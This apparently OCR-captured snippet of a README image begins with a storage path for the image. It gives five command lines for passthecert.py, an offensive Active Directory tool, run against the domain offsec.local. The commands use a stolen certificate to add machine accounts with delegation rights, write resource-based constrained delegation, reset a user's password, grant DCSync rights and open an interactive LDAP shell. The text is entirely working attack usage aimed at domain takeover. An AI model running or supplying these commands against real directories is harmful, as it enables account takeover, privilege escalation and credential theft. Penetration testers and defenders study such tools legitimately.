 ````
$ python3 passthecert.py -action add_computer -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1 -computer-name OFFSECMACHINE$ -delegated-services cifs/SRV-MAIL.domain.local,ldap/SRV-MAIL.domain.local 
$ python3 passthecert.py -action write_rbcd -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1 -port 389 -delegate-to DESKTOP-CKDRXFUX$ -delegate-from SRV-MAIL$ (Add a delegation right via StartTLS on port 389)
$ python3 passthecert.py -action modify_user -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1 -target user_sam -new-pass (Change a password of a user)
$ python3 passthecert.py -action modify_user -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1 -target user_sam -elevate (Elevate a user for DCSYNC)
$ python3 passthecert.py -action ldap-shell -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1 (Spawn an interactive LDAP shell)




